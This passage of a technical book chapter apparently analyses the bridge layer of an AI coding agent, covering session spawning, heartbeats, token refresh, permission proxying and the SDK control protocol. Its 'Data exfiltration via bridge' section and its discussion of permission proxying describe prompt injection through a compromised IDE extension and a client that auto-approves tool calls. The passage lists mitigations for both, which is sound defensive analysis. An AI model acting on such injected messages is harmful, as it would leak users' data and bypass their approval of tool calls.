  onSetPermissionMode?: (mode: PermissionMode) => { ok: true } | { ok: false; error: string }
  onStateChange?: (state: BridgeState, detail?: string) => void
  onUserMessage?: (text: string, sessionId: string) => boolean
  perpetual?: boolean
  initialSSESequenceNum?: number
}
```

This heavy use of dependency injection is a deliberate architectural choice. As the comments in the source explain, importing modules like `createSession.ts` or `auth.ts` directly would pull the entire command registry and React tree into the Agent SDK bundle. By injecting these functions, the bridge core remains independent of the REPL's full dependency graph.

### BackoffConfig: reconnection parameters

The `BackoffConfig` type controls the exponential backoff behavior for connection and general retry:

```typescript
// src/bridge/bridgeMain.ts:L59-L70
export type BackoffConfig = {
  connInitialMs: number
  connCapMs: number
  connGiveUpMs: number
  generalInitialMs: number
  generalCapMs: number
  generalGiveUpMs: number
  shutdownGraceMs?: number
  stopWorkBaseDelayMs?: number
}
```

The default configuration sets connection backoff from 2 seconds to 2 minutes (cap), giving up after 10 minutes. General backoff starts at 500ms and caps at 30 seconds. The `shutdownGraceMs` controls the SIGTERM-to-SIGKILL grace period on shutdown (default 30s).

## Control flow

### VS Code / JetBrains to cc round trip

When the user interacts with cc through the VS Code or JetBrains extension, the bridge translates between the IDE's protocol and cc's internal message format:

```mermaid
sequenceDiagram
    participant IDE as VS Code / JetBrains
    participant Bridge as replBridge
    participant REPL as cc REPL
    participant Model as Anthropic API
    IDE->>Bridge: user message via SDKMessage
    Bridge->>REPL: onInboundMessage(msg)
    REPL->>Model: query(input, messages)
    Model-->>REPL: streaming response
    REPL->>Bridge: writeSdkMessages(assistantMessages)
    Bridge-->>IDE: SDKMessage stream
    IDE->>Bridge: permission response
    Bridge->>REPL: onPermissionResponse(response)
```

1. The IDE sends a user message as an `SDKMessage` through the bridge's transport (WebSocket for IDE bridges, HTTP polling for claude.ai web).
2. The bridge calls `onInboundMessage`, which injects the message into cc's conversation.
3. The REPL processes the message through the standard query loop.
4. As the model streams its response, the REPL calls `writeSdkMessages` to forward the output to the bridge.
5. The bridge translates the messages to `SDKMessage` format and sends them to the IDE.
6. If a tool permission request is generated, the bridge forwards it to the IDE as a `SDKControlRequest`.
7. The user approves or denies the request in the IDE, which sends a `SDKControlResponse` back through the bridge.

### Work polling and session spawning

The `bridgeMain.ts` module implements a work-polling loop that manages cc sessions as child processes. The bridge operates as a long-running daemon that connects to the claude.ai backend, polls for available work, and spawns cc processes to handle that work. The `runBridgeLoop` function orchestrates the entire lifecycle:

```mermaid
flowchart TD
    A[Poll for work] --> B{Work available?}
    B -->|Yes| C[Spawn cc session]
    B -->|No| D[Wait with backoff]
    D --> A
    C --> E[Monitor session]
    E --> F{Session done?}
    F -->|Yes| G[Archive session]
    F -->|No| H{Timeout?}
    H -->|Yes| I[Kill session]
    H -->|No| E
    G --> A
    I --> A
```

The `runBridgeLoop` function orchestrates the entire lifecycle:

```typescript
// src/bridge/bridgeMain.ts:L141-L151
export async function runBridgeLoop(
  config: BridgeConfig,
  environmentId: string,
  environmentSecret: string,
  api: BridgeApiClient,
  spawner: SessionSpawner,
  logger: BridgeLogger,
  signal: AbortSignal,
  backoffConfig: BackoffConfig = DEFAULT_BACKOFF,
  initialSessionId?: string,
  getAccessToken?: () => string | undefined | Promise<string | undefined>,
): Promise<void>
```

It maintains several maps to track the state of active sessions:

- `activeSessions: Map<string, SessionHandle>` -- the spawned cc process handles
- `sessionStartTimes: Map<string, number>` -- when each session was started, for timeout tracking
- `sessionWorkIds: Map<string, string>` -- the work item ID assigned by the server
- `sessionCompatIds: Map<string, string>` -- compatibility-surface IDs for the v1/v2 session API shim
- `sessionIngressTokens: Map<string, string>` -- per-session JWTs for heartbeat authentication
- `sessionTimers: Map<string, ReturnType<typeof setTimeout>>` -- timeout watchdogs
- `completedWorkIds: Set<string>` -- work items that have been processed, to avoid re-accepting
- `sessionWorktrees: Map<string, {...}>` -- git worktrees created for each session
- `timedOutSessions: Set<string>` -- sessions killed by the timeout watchdog
- `titledSessions: Set<string>` -- sessions that have been named (to avoid clobbering)

The `capacityWake` signal allows the loop to immediately accept new work when a session completes, rather than waiting for the next poll cycle. This reduces latency between session completion and new work assignment from the polling interval (typically 1-2 seconds) to near-zero.

### Multi-session spawn modes

The bridge supports multiple spawn modes controlled by GrowthBook feature flags. The `isMultiSessionSpawnEnabled` function checks the `tengu_ccr_bridge_multi_session` gate:

```typescript
// src/bridge/bridgeMain.ts:L96-L98
async function isMultiSessionSpawnEnabled(): Promise<boolean> {
  return checkGate_CACHED_OR_BLOCKING('tengu_ccr_bridge_multi_session')
}
```

When multi-session mode is enabled, the bridge can spawn up to `SPAWN_SESSIONS_DEFAULT = 32` concurrent cc sessions. Each session runs in its own process with its own working directory and git worktree. The `createSessionSpawner` function in `src/bridge/sessionRunner.ts` handles the actual process spawning, passing the SDK URL, environment secrets, and other configuration through command-line arguments.

The `spawnScriptArgs` function handles a subtle difference between compiled binaries and npm installs:

```typescript
// src/bridge/bridgeMain.ts:L119-L124
function spawnScriptArgs(): string[] {
  if (isInBundledMode() || !process.argv[1]) {
    return []
  }
  return [process.argv[1]]
}
```

In compiled binaries, `process.execPath` is the cc binary itself and args go directly. In npm installs, `process.execPath` is the Node runtime, and the child spawn must pass the script path as the first argument. Without this, Node interprets `--sdk-url` as a Node option and exits with "bad option: --sdk-url".

### Worktree management for session isolation

Each spawned cc session can optionally run in a git worktree, providing isolated working directories for parallel sessions. The `sessionWorktrees` map tracks the worktree path, branch name, git root, and whether the worktree was created via the hook-based mechanism:

```typescript
// src/bridge/bridgeMain.ts:L177-L184
const sessionWorktrees = new Map<
  string,
  {
    worktreePath: string
    worktreeBranch?: string
    gitRoot?: string
    hookBased?: boolean
  }
>()
```

When a session completes or is killed, the bridge cleans up the worktree using `removeAgentWorktree` from `src/utils/worktree.ts`. If the worktree was created via the hook-based mechanism, the cleanup is delegated to the hook's cleanup handler rather than the direct filesystem removal.

### Heartbeat and session health monitoring

The bridge sends periodic heartbeats to the server for each active work item. The `STATUS_UPDATE_INTERVAL_MS = 1000` constant controls how often status updates are sent. The heartbeat includes the session's current state (running, completed, failed) and any relevant metadata.

The heartbeat authentication uses the session ingress JWT, which is separate from the OAuth access token. This separation is important because the OAuth token is shared across all sessions and refreshes approximately every 4 hours, while the session ingress JWT is scoped to a specific session and may have a different lifetime:

```typescript
// src/bridge/bridgeMain.ts:L171-L173
// Session ingress JWTs for heartbeat auth, keyed by sessionId.
// Stored separately from handle.accessToken because the token refresh
// scheduler overwrites that field with the OAuth token (~3h55m in).
const sessionIngressTokens = new Map<string, string>()
```

The `createTokenRefreshScheduler` in `src/bridge/jwtUtils.ts` monitors the OAuth token's expiry claim and refreshes it before it expires. The refresh is propagated to the `BridgeApiClient` and the session ingress connection. If the refresh fails, the bridge enters the `'reconnecting'` state.

### Trusted device token and session ingress

The bridge authenticates with the server using a trusted device token, obtained via `getTrustedDeviceToken`. This token is separate from the OAuth access token and is used for the session ingress connection. The session ingress JWT (`sessionIngressTokens` map) is stored per-session and used for heartbeat authentication, ensuring that each session's heartbeat is authenticated independently.

### Permission proxying

When the agent needs user approval for a tool call, and the user is interacting through the IDE, the permission request must be proxied through the bridge:

```mermaid
sequenceDiagram
    participant Agent as cc Agent
    participant REPL as cc REPL
    participant Bridge as replBridge
    participant IDE as VS Code
    Agent->>REPL: tool use requires permission
    REPL->>Bridge: sendControlRequest(permission)
    Bridge->>IDE: SDKControlRequest
    IDE->>Bridge: SDKControlResponse(approve/deny)
    Bridge->>REPL: onPermissionResponse(response)
    REPL->>Agent: proceed or cancel
```

The bridge does not make permission decisions itself; it routes the request to the connected client and delivers the response back. This design ensures that the bridge does not need to understand the permission model -- it is a pure transport layer.

### The Agent SDK interface

The bridge chapter so far has described how IDE clients and the claude.ai web UI communicate with cc through the REPL bridge. But there is a third class of consumer: programmatic SDK clients. The Agent SDK provides a TypeScript API that lets external programs create sessions, send queries, define custom tools, and intercept permission decisions -- all without launching a terminal or IDE. Three source files define this interface: `src/entrypoints/sdk/coreTypes.ts` declares the hook event catalog and exit reasons, `src/entrypoints/agentSdkTypes.ts` exports the public function signatures, and `src/entrypoints/sdk/controlSchemas.ts` defines the Zod-validated control protocol.

### Core types: hook events and exit reasons

The SDK exposes two const arrays that enumerate every lifecycle point an SDK consumer can observe. `HOOK_EVENTS` lists 27 event names that cover the full agent lifecycle from session start through tool use, compaction, subagent coordination, and file-system changes (`src/entrypoints/sdk/coreTypes.ts:L25-L53`):

```typescript
// src/entrypoints/sdk/coreTypes.ts:L25-L53 — Hook event catalog
export const HOOK_EVENTS = [
  'PreToolUse',        'PostToolUse',       'PostToolUseFailure',
  'Notification',      'UserPromptSubmit',  'SessionStart',
  'SessionEnd',        'Stop',              'StopFailure',
  'SubagentStart',     'SubagentStop',      'PreCompact',
  'PostCompact',       'PermissionRequest', 'PermissionDenied',
  'Setup',             'TeammateIdle',      'TaskCreated',
  'TaskCompleted',     'Elicitation',       'ElicitationResult',
  'ConfigChange',      'WorktreeCreate',    'WorktreeRemove',
  'InstructionsLoaded','CwdChanged',        'FileChanged',
] as const
```

Each event name maps to a specialized Zod schema in `src/entrypoints/sdk/coreSchemas.ts` that adds event-specific fields. For example, `PreToolUseHookInputSchema` extends `BaseHookInputSchema` with `tool_name`, `tool_input`, and `tool_use_id` (`src/entrypoints/sdk/coreSchemas.ts:L414-L423`), while `SessionStartHookInputSchema` adds `source` (one of `startup`, `resume`, `clear`, `compact`) and `model` (`src/entrypoints/sdk/coreSchemas.ts:L493-L502`). Every hook input carries a base payload of `session_id`, `transcript_path`, `cwd`, and optional `agent_id` and `agent_type` fields, giving the consumer enough context to correlate events across subagents (`src/entrypoints/sdk/coreSchemas.ts:L387-L411`).

`EXIT_REASONS` enumerates the six ways a session can end (`src/entrypoints/sdk/coreTypes.ts:L55-L62`):

```typescript
// src/entrypoints/sdk/coreTypes.ts:L55-L62 — Exit reason catalog
export const EXIT_REASONS = [
  'clear',                       // user cleared conversation
  'resume',                      // session suspended for later resume
  'logout',                      // user logged out
  'prompt_input_exit',           // user exited at the prompt
  'other',                       // catch-all
  'bypass_permissions_disabled', // dangerous permission mode revoked
] as const
```

The `SessionEnd` hook input carries the exit reason, allowing SDK consumers to distinguish between intentional exits (user-initiated `clear` or `logout`) and forced shutdowns (`bypass_permissions_disabled`).

### Agent SDK function surface

The public API surface is defined in `src/entrypoints/agentSdkTypes.ts`. Every exported function throws `'not implemented'` in the type-declaration module; the actual implementations are injected at runtime by the SDK loader. This is the same dependency-injection pattern used by `BridgeCoreParams` -- the type declarations define the contract, and the runtime wires in the real code. The API has three tiers.

**Tier 1: One-shot query.** The `query()` function (`src/entrypoints/agentSdkTypes.ts:L112-L122`) sends a prompt and returns an async iterable of `SDKMessage` objects. It accepts either a plain string or an `AsyncIterable<SDKUserMessage>` for streaming input. This is the lowest-ceremony entry point -- no session management, no state persistence:

```typescript
// src/entrypoints/agentSdkTypes.ts:L116-L119 — One-shot query signature
export function query(_params: {
  prompt: string | AsyncIterable<SDKUserMessage>
  options?: Options
}): Query
```

**Tier 2: Persistent sessions (alpha).** For multi-turn conversations, the `unstable_v2_createSession()` function (`src/entrypoints/agentSdkTypes.ts:L129-L133`) returns an `SDKSession` handle that persists across multiple queries. The companion `unstable_v2_resumeSession()` (`src/entrypoints/agentSdkTypes.ts:L140-L145`) reconnects to a previous session by ID. Both are marked `@alpha`, indicating that the API contract is not yet stable:

```typescript
// src/entrypoints/agentSdkTypes.ts:L129-L145 — Persistent session API
export function unstable_v2_createSession(
  _options: SDKSessionOptions,
): SDKSession { ... }

export function unstable_v2_resumeSession(
  _sessionId: string,
  _options: SDKSessionOptions,
): SDKSession { ... }
```

**Tier 3: Custom tools.** The `tool()` function (`src/entrypoints/agentSdkTypes.ts:L73-L88`) defines an MCP tool with a Zod input schema and an async handler. The `createSdkMcpServer()` function (`src/entrypoints/agentSdkTypes.ts:L103-L107`) bundles one or more tool definitions into an MCP server instance that runs in-process. This allows SDK consumers to extend the agent's tool set without deploying a separate MCP server process:

```typescript
// src/entrypoints/agentSdkTypes.ts:L73-L88 — Custom tool definition
export function tool<Schema extends AnyZodRawShape>(
  _name: string,
  _description: string,
  _inputSchema: Schema,
  _handler: (
    args: InferShape<Schema>,
    extra: unknown,
  ) => Promise<CallToolResult>,
  _extras?: {
    annotations?: ToolAnnotations
    searchHint?: string
    alwaysLoad?: boolean
  },
): SdkMcpToolDefinition<Schema>
```

The `annotations` field (from `@modelcontextprotocol/sdk`) marks tools as `readOnly`, `destructive`, or `openWorld`, which feeds into cc's permission classification. The `alwaysLoad` flag prevents the tool from being deferred by the tool-budget optimizer (Chapter 13), ensuring it is always present in the system prompt.

### Control protocol: the permission channel

The control protocol, defined in `src/entrypoints/sdk/controlSchemas.ts`, is the wire format for bidirectional communication between the SDK consumer and the cc CLI process. It is the mechanism through which SDK consumers implement their own permission UIs.

An `SDKControlRequest` wraps a `request_id` and an inner request discriminated by `subtype` (`src/entrypoints/sdk/controlSchemas.ts:L578-L584`). The inner union contains 21 subtypes, from `can_use_tool` (permission request) through `initialize`, `interrupt`, `mcp_status`, `get_context_usage`, and `elicitation`. The permission subtype `SDKControlPermissionRequestSchema` carries the `tool_name`, `input` (the tool's arguments), `tool_use_id`, and optional `permission_suggestions` that hint at rules the consumer could auto-apply (`src/entrypoints/sdk/controlSchemas.ts:L106-L122`):

```typescript
// src/entrypoints/sdk/controlSchemas.ts:L106-L122 — Permission request payload
SDKControlPermissionRequestSchema = z.object({
  subtype: z.literal('can_use_tool'),
  tool_name: z.string(),
  input: z.record(z.string(), z.unknown()),
  permission_suggestions: z.array(PermissionUpdateSchema()).optional(),
  blocked_path: z.string().optional(),
  decision_reason: z.string().optional(),
  title: z.string().optional(),
  display_name: z.string().optional(),
  tool_use_id: z.string(),
  agent_id: z.string().optional(),
  description: z.string().optional(),
})
```

An `SDKControlResponse` wraps either a success response (with an optional `response` payload) or an error response (with an `error` string and optional `pending_permission_requests` for re-queuing) (`src/entrypoints/sdk/controlSchemas.ts:L605-L610`). An `SDKControlCancelRequest` cancels an outstanding control request by `request_id` (`src/entrypoints/sdk/controlSchemas.ts:L612-L619`), which is used when the user navigates away before responding to a permission prompt.

The stdin/stdout message types combine these protocols into two aggregate unions. `StdoutMessageSchema` covers everything the CLI writes: `SDKMessage`, streamlined messages, control responses, control requests (outbound permission prompts), cancel requests, and keep-alive pings (`src/entrypoints/sdk/controlSchemas.ts:L642-L653`). `StdinMessageSchema` covers everything the CLI reads: user messages, control requests (inbound commands like `initialize` and `set_model`), control responses (permission decisions), keep-alive, and environment variable updates (`src/entrypoints/sdk/controlSchemas.ts:L655-L663`).

### SDK session lifecycle

The following diagram shows the complete lifecycle of an SDK session, from creation through query execution and permission resolution:

```mermaid
sequenceDiagram
    participant Consumer as SDK Consumer
    participant SDK as agentSdkTypes
    participant CLI as cc CLI Process
    participant Model as Anthropic API

    Consumer->>SDK: unstable_v2_createSession(options)
    SDK->>CLI: spawn process, stdin/stdout pipes
    CLI-->>SDK: SDKControlRequest(initialize)
    SDK-->>Consumer: SDKSession handle

    Consumer->>SDK: session.query(prompt)
    SDK->>CLI: SDKUserMessage via stdin
    CLI->>Model: API request with tools
    Model-->>CLI: response with tool_use

    CLI-->>SDK: SDKControlRequest(can_use_tool)
    SDK-->>Consumer: permission callback
    Consumer-->>SDK: allow / deny
    SDK->>CLI: SDKControlResponse(allow)

    CLI->>CLI: execute tool
    CLI->>Model: tool result + continue
    Model-->>CLI: final response
    CLI-->>SDK: SDKMessage (assistant)
    SDK-->>Consumer: async iterable yields message

    Consumer->>SDK: session.close()
    SDK->>CLI: SIGTERM
    CLI-->>SDK: SDKMessage (result)
```

The initialization handshake is the critical bootstrapping step. When the SDK spawns the CLI process, the CLI sends an `SDKControlRequest` with subtype `initialize` back through stdout. This request carries the session's hook registrations, MCP server names, and optional agent definitions (`src/entrypoints/sdk/controlSchemas.ts:L57-L75`). The SDK consumer responds with an `SDKControlInitializeResponse` containing available commands, agent info, models, and account metadata (`src/entrypoints/sdk/controlSchemas.ts:L77-L95`). Only after this handshake completes can the consumer send queries.

The permission flow is synchronous from the CLI's perspective: the CLI blocks on the tool call until the SDK consumer responds with `allow` or `deny`. If the consumer disconnects before responding, the CLI treats the pending request as denied and the tool call fails. The `SDKControlCancelRequest` provides a clean way to withdraw a permission prompt without triggering a deny -- the CLI drops the request and continues as if the tool call was never attempted.

## Edge cases and failure modes

### Data exfiltration via bridge

HER Section 12.4 identifies data exfiltration through tool calls as a critical threat. The bridge amplifies this risk because it provides a bidirectional message channel between the agent and external clients. A compromised IDE extension could inject messages that trick the agent into sending sensitive data through the bridge. cc mitigates this through several layers:

1. **Work-secret authentication**: Each session is authenticated with a unique work secret, preventing unauthorized clients from connecting.
2. **Session ingress JWT**: The ingress token is scoped to a specific session and refreshed independently.
3. **Permission proxying**: The bridge does not auto-approve tool calls; all permission decisions are routed to the user.
4. **Message validation**: Inbound messages are validated against the `SDKMessage` schema before injection.

Despite these mitigations, a compromised bridge transport could still inject messages that the agent processes. The bridge does not implement end-to-end message authentication or integrity verification, which is a known gap.

### Connection loss during active session

If the bridge connection drops while the agent is executing a long-running task, the agent continues to run in the background. The bridge's reconnection logic (exponential backoff from 2 seconds to 2 minutes) attempts to re-establish the connection. If reconnection succeeds, the bridge replays any messages that were queued during the outage. If reconnection fails after 10 minutes, the bridge reports a `'failed'` state and the session is lost.

The `capacityWake` signal ensures that when a session completes during a connection outage, the bridge can immediately accept new work when the connection is restored, rather than waiting for the next poll cycle.

### Session timeout and SIGTERM escalation

Each spawned cc session has a timeout (default `DEFAULT_SESSION_TIMEOUT_MS`). When the timeout fires, the bridge sends SIGTERM to the cc process and waits for the `shutdownGraceMs` (default 30 seconds). If the process does not exit within the grace period, SIGKILL is sent. The `timedOutSessions` set tracks which sessions were killed by the timeout watchdog, so `onSessionDone` can distinguish them from server-initiated or shutdown interrupts.

### OAuth token refresh in the bridge

The bridge uses OAuth tokens for authentication with the claude.ai backend. Tokens expire after approximately 4 hours. The `createTokenRefreshScheduler` in `src/bridge/jwtUtils.ts` monitors token expiry and refreshes them before they expire. The refreshed token is propagated to the `BridgeApiClient` and the session ingress connection. If the refresh fails, the bridge enters the `'reconnecting'` state and attempts to re-authenticate.

### Sleep/wake detection

The bridge detects system sleep/wake events by monitoring the gap between poll cycles. If the gap exceeds `pollSleepDetectionThresholdMs` (2x the connection backoff cap), the bridge assumes the system was asleep and resets its error budget, preventing accumulated backoff delays from causing unnecessary connection failures.

```typescript
// src/bridge/bridgeMain.ts:L107-L109
function pollSleepDetectionThresholdMs(backoff: BackoffConfig): number {
  return backoff.connCapMs * 2
}
```

This threshold must exceed the max backoff cap; otherwise, normal backoff delays would trigger false sleep detection, resetting the error budget indefinitely and preventing the bridge from ever giving up on a truly failed connection.

### REPL bridge transport selection

The REPL bridge supports multiple transport protocols for communication with the claude.ai backend. The `createV1ReplTransport` and `createV2ReplTransport` functions in `src/bridge/replBridgeTransport.ts` create transport instances that handle message serialization, compression, and reconnection. The `HybridTransport` in `src/cli/transports/HybridTransport.ts` combines WebSocket and HTTP polling, using WebSocket for low-latency real-time communication and falling back to HTTP polling when WebSocket is unavailable.

The `BridgeCoreParams` type includes an `onAuth401` callback that is passed to `createBridgeApiClient`. This callback is injected because importing `utils/auth.ts` directly would pull the entire command registry into the bridge module. The REPL wrapper passes `handleOAuth401Error`; the daemon wrapper passes its AuthManager's handler. This dependency injection pattern keeps the bridge module independent of the REPL's full dependency graph.

### Session archive and cleanup

When a session completes (either naturally or via timeout), the bridge archives it by calling `archiveSession`. The archive request is best-effort; the callback must not throw. The bridge also updates the session's bridge ID via `updateSessionBridgeId` from `src/utils/concurrentSessions.ts`, which ensures that the server-side session record reflects the bridge that processed it.

The `onSessionDone` callback handles the full lifecycle of session cleanup. It removes the session from all tracking maps (`activeSessions`, `sessionStartTimes`, `sessionWorkIds`, `sessionIngressTokens`, `sessionCompatIds`, `timedOutSessions`, `v2Sessions`), cancels the token refresh timer, clears the timeout watchdog, and calls `capacityWake.wake()` to signal the poll loop that capacity is available. The cleanup distinguishes between normal completion, failure, and interruption. For interrupted sessions (server-initiated or shutdown), `stopWork` is skipped because the server already knows. For completed or failed sessions in single-session mode, the bridge aborts the poll loop and tears down the environment; in multi-session mode, the session is archived and the bridge returns to idle, ready to accept new work.

The `safeSpawn` function wraps the session spawner to catch spawn errors and return them as strings rather than throwing:

```typescript
// src/bridge/bridgeMain.ts:L126-L139
function safeSpawn(
  spawner: SessionSpawner,
  opts: SessionSpawnOpts,
  dir: string,
): SessionHandle | string {
  try {
    return spawner.spawn(opts, dir)
  } catch (err) {
    const errMsg = errorMessage(err)
    logError(new Error(`Session spawn failed: ${errMsg}`))
    return errMsg
  }
}
```

This error-handling pattern prevents a single spawn failure from crashing the entire bridge loop. The error is logged and reported to telemetry via `logError`, and the bridge continues polling for new work on the next cycle without losing its environment registration or disrupting other active sessions that may still be running.

### Heartbeat and work-item health monitoring

The bridge sends periodic heartbeats to the server for each active work item. The `heartbeatActiveWorkItems` function iterates over all active sessions and calls `api.heartbeatWork` with the environment ID, work ID, and session ingress JWT. Heartbeat failures are classified into three categories: `auth_failed` (401/403, indicating JWT expiry), `fatal` (404/410, indicating the environment has expired or been deleted), and transient errors (all others, which are retried on the next heartbeat cycle):

```typescript
// src/bridge/bridgeMain.ts:L202-L270
async function heartbeatActiveWorkItems(): Promise<
  'ok' | 'auth_failed' | 'fatal' | 'failed'
> {
  let anySuccess = false
  let anyFatal = false
  const authFailedSessions: string[] = []
  for (const [sessionId] of activeSessions) {
    const workId = sessionWorkIds.get(sessionId)
    const ingressToken = sessionIngressTokens.get(sessionId)
    if (!workId || !ingressToken) {
      continue
    }
    try {
      await api.heartbeatWork(environmentId, workId, ingressToken)
      anySuccess = true
    } catch (err) {
      logForDebugging(
        `[bridge:heartbeat] Failed for sessionId=${sessionId} workId=${workId}: ${errorMessage(err)}`,
      )
      if (err instanceof BridgeFatalError) {
        logEvent('tengu_bridge_heartbeat_error', {
          status: err.status,
          error_type: err.status === 401 || err.status === 403
            ? 'auth_failed' : 'fatal',
        })
        if (err.status === 401 || err.status === 403) {
          authFailedSessions.push(sessionId)
        } else {
          anyFatal = true
        }
      }
    }
  }
  for (const sessionId of authFailedSessions) {
    logger.logVerbose(
      `Session ${sessionId} token expired — re-queuing via bridge/reconnect`,
    )
    try {
      await api.reconnectSession(environmentId, sessionId)
      logForDebugging(
        `[bridge:heartbeat] Re-queued sessionId=${sessionId} via bridge/reconnect`,
      )
    } catch (err) {
      logger.logError(
        `Failed to refresh session ${sessionId} token: ${errorMessage(err)}`,
      )
      logForDebugging(
        `[bridge:heartbeat] reconnectSession(${sessionId}) failed: ${errorMessage(err)}`,
        { level: 'error' },
      )
    }
  }
  if (anyFatal) {
    return 'fatal'
  }
  if (authFailedSessions.length > 0) {
    return 'auth_failed'
  }
  return anySuccess ? 'ok' : 'failed'
}
```

When a session's JWT expires (auth_failed), the bridge calls `api.reconnectSession` to trigger server-side re-dispatch. Without this, the work stays ACK'd out of the Redis pending entry list (PEL) and the poll returns empty forever -- the session becomes a zombie that the server thinks is being processed but the bridge cannot actually reach. The re-queued work is picked up on the next poll cycle with a fresh JWT.

### Proactive token refresh for v2 sessions

Sessions spawned with CCR v2 environment variables cannot use OAuth tokens directly because the CCR worker endpoints validate the JWT's `session_id` claim. For v2 sessions, the `createTokenRefreshScheduler` schedules a timer 5 minutes before the session ingress JWT expires. Instead of delivering the refreshed OAuth token to the child process (which would fail validation), the `onRefresh` callback calls `api.reconnectSession` to trigger server-side re-dispatch:

```typescript
// src/bridge/bridgeMain.ts:L279-L313
const tokenRefresh = getAccessToken
  ? createTokenRefreshScheduler({
      getAccessToken,
      onRefresh: (sessionId, oauthToken) => {
        const handle = activeSessions.get(sessionId)
        if (!handle) {
          return
        }
        if (v2Sessions.has(sessionId)) {
          logger.logVerbose(
            `Refreshing session ${sessionId} token via bridge/reconnect`,
          )
          void api
            .reconnectSession(environmentId, sessionId)
            .catch((err: unknown) => {
              logger.logError(
                `Failed to refresh session ${sessionId} token: ${errorMessage(err)}`,
              )
              logForDebugging(
                `[bridge:token] reconnectSession(${sessionId}) failed: ${errorMessage(err)}`,
                { level: 'error' },
              )
            })
        } else {
          handle.updateAccessToken(oauthToken)
        }
      },
      label: 'bridge',
    })
  : null
```

Without this proactive refresh, v2 daemon sessions silently die at approximately 5 hours because the server does not auto-re-dispatch ACK'd work on lease expiry. The `v2Sessions` set tracks which sessions were spawned with v2 env vars, and the `onRefresh` callback branches accordingly.

### Crash-recovery pointer and perpetual mode

The REPL bridge writes a crash-recovery pointer file after session creation, containing the session ID and environment ID. If the bridge process is killed (e.g., `kill -9`), the pointer file remains on disk. On the next startup in perpetual mode, the bridge reads the pointer and attempts to reconnect to the existing session via `tryReconnectInPlace`, avoiding the need to create a new environment and session:

```typescript
// src/bridge/replBridge.ts:L311-L313
const rawPrior = perpetual ? await readBridgePointer(dir) : null
const prior = rawPrior?.source === 'repl' ? rawPrior : null
```

Only `repl`-source pointers are reused; a crashed standalone bridge (`claude remote-control`) writes `source:'standalone'` with a different `workerType`. If the reconnection fails (e.g., the environment has expired), the pointer is cleared so the next start does not retry the same dead ID.

### Environment registration and session creation lifecycle

The bridge core (`initBridgeCore`) follows a strict sequence: environment registration, session creation, crash-recovery pointer write, then poll loop start. If environment registration fails, the bridge reports a `'failed'` state and returns null. If session creation fails (the `createSession` callback returns null), the bridge deregisters the environment and reports failure. This ensures that no orphaned environments are left on the server when the bridge cannot create a session.

The `onUserMessage` callback in `BridgeCoreParams` implements a "derive-at-count-1-and-3" title policy: the first and third user messages trigger a title derivation request to the server, which uses the message text and session ID to generate a human-readable session title. The callback receives the message text and session ID as arguments (not the full SDKMessage), and returns a boolean indicating whether the title was set. The transport stops calling when it returns true.

## Where cc diverges from the published pattern

### Local orchestrator vs. HER's three tiers

HER Section 9.1 defines three tiers of multi-agent orchestration: in-process subagents, local orchestrators, and cloud async. The bridge is a local orchestrator that spawns and manages cc sessions as child processes. However, it also implements cloud async features (work polling from a remote server, session archiving). This hybrid model is not cleanly captured by HER's three-tier taxonomy. The bridge demonstrates that the boundary between "local orchestrator" and "cloud async" is fluid: a local orchestrator can participate in cloud-coordinated work distribution without being a fully cloud-native system.

### Dependency injection for bundle isolation

The `BridgeCoreParams` type uses heavy dependency injection to avoid importing modules that would bloat the Agent SDK bundle. This is a practical concern not addressed in HER's reference architecture. When a harness is used as both a standalone CLI and a library (via an SDK), the dependency graph must be carefully managed to prevent the library from pulling in the CLI's full UI stack. cc solves this by injecting all transitive dependencies, at the cost of a verbose type definition and manual wiring.

### Permission proxying as a transport concern

The bridge treats permission proxying as a transport concern: it routes `SDKControlRequest`/`SDKControlResponse` messages without understanding their semantics. This is the correct design for a transport layer, but it means the bridge cannot enforce permission policies or detect malicious permission responses. A compromised client could auto-approve all tool calls, and the bridge would dutifully deliver the approvals to the agent. A more secure design would have the bridge validate permission responses against the original request, ensuring that only requested permissions are granted and that deny responses are not spoofed as approvals.

## Developer takeaways for building a long-running agent

1. **Inject dependencies, do not import them.** The `BridgeCoreParams` pattern keeps the bridge core independent of the REPL's full dependency graph, enabling the Agent SDK to use the bridge without bundling React, Ink, or the command registry.

2. **Proxy permissions, do not decide them.** The bridge routes `SDKControlRequest`/`SDKControlResponse` without understanding their semantics, allowing the permission model to evolve independently of the transport.

3. **Use work-secret authentication for session binding.** Each session is authenticated with a unique work secret generated at spawn time, preventing unauthorized clients from connecting.

4. **Detect sleep/wake by monitoring poll gaps.** When the gap between polls exceeds 2x the max backoff cap, reset the error budget to prevent accumulated delays from causing false connection failures.

5. **Escalate process termination gracefully.** SIGTERM first, wait 30 seconds, then SIGKILL. Track timeout-killed sessions so the cleanup handler can distinguish them from normal exits.

6. **Implement capacity signaling.** The `capacityWake` pattern signals the poll loop immediately when a session completes, reducing latency to near-zero instead of waiting for the next poll cycle.

7. **Separate OAuth tokens from session tokens.** OAuth tokens are shared across sessions (~4h lifetime); session ingress JWTs are scoped per-session. Refresh them independently and store them in separate maps.

8. **Write crash-recovery pointers early.** Write session ID and environment ID immediately after creation. A `kill -9` should leave a recoverable trail; clear the pointer on clean teardown for non-perpetual mode.

9. **Classify heartbeat failures precisely.** Auth failures (401/403) are recoverable by re-queuing; fatal failures (404/410) mean the environment is deleted. Misclassifying a fatal error as transient causes endless retries on a dead environment.

10. **Use separate refresh strategies for v1 and v2 sessions.** v1 accepts refreshed OAuth tokens directly; v2 rejects them (JWT `session_id` claim mismatch) and requires `reconnectSession` for server-side re-dispatch.
# Part VIII. Long-Running Work

The difference between a chatbot and a production agent is what happens when the user walks away. Part VIII covers the systems that enable cc to perform sustained, multi-step work: plan mode for structured exploration, worktrees for isolated parallel branches, cron and scheduling for time-based automation, remote agents for cloud-scale execution, and the experimental layers that hint at future directions.

The theme of Part VIII is work that extends beyond a single query iteration. These five chapters are grouped together because they all address the challenge of sustained, long-running tasks -- tasks that require planning, isolation, scheduling, remote execution, or background processing. Each chapter covers a different mechanism cc uses to keep work going when the immediate loop is not enough.

Long-running work is the domain where cc's architecture truly distinguishes itself from simpler agent frameworks. Most frameworks assume that each interaction is independent: the user asks a question, the agent answers, and the session ends. cc assumes that work may span hours, require multiple parallel branches, need to be scheduled for future execution, or demand cloud-scale resources that exceed the local machine. This assumption drives some of cc's most innovative features, including plan mode's five-phase model, worktrees for isolated parallel development, and the dream task system for background consolidation.

